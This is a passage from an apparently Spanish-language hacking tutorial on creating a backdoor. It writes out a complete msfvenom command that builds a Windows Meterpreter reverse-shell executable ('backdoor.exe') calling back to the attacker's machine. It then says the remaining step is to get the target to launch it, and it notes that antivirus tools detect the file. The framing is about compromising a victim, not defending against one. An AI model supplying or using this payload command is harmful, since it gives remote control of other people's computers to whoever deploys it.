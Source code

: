 El comando final quedaría de la siguiente forma:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.*** lport=4444 -f exe -o /home/r4kso/Desktop/backdoor.exe
```

Como vemos, se nos ha creado el programa malicioso :

<p align="center">
<img src="/assets/images/crear-backdoor-como-funciona/creacion-programa.png" width="100%">
</p>

Ahora, solo bastaría con hacer que el objetivo inicie el programa, pero nos encontramos con un problema... Y es que es muy sencillo de detectar por los antivirus, como demuestra la siguiente prueba:

<p align="center">
<img src="/assets/images/crear-backdoor-como-funciona/prueba-virustotal.png" width="50%">
</p>